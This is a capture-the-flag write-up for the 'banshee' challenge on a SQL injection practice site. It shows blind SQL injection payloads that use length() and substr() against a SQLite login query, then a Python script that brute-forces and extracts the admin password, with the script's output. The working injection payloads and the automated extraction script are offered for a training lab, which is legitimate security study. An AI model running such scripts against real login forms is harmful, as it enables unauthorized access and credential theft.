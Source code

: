 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 39
tags: [SQLi, Blind SQL injection]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a61aad74-8281-41ed-a2ae-9a7202c94f06)

We are provided with the SQLite query.

```sql
SELECT id FROM member WHERE id='admin' AND pw='{$_GET[pw]}'
```

In order to solve this challenge, we have to perform blind SQL injection.

&nbsp;

## Blind SQL injection

### Extracting the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=[length] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="banshee_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p4hrm6i519s3gb9g95dqsmqk8v'}
url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "login success!" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "login success!" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\banshee_script.py     

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%273%27+--+-
[+] Character at index 2: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%271%27+--+-
[+] Character at index 3: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%273%27+--+-
[+] Character at index 4: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%270%27+--+-
[+] Character at index 5: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%279%27+--+-
[+] Character at index 6: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%271%27+--+-
[+] Character at index 7: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='b' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27b%27+--+-
[+] Character at index 8: b

[!] Extracted password: 0313091b
[!] Final payload: ?pw=0313091b
```

&nbsp;

If we provide the following URI parameter:

```
?pw=0313091b
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='0313091b'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8f2545dd-41be-4133-869a-cb3d3820f33d)
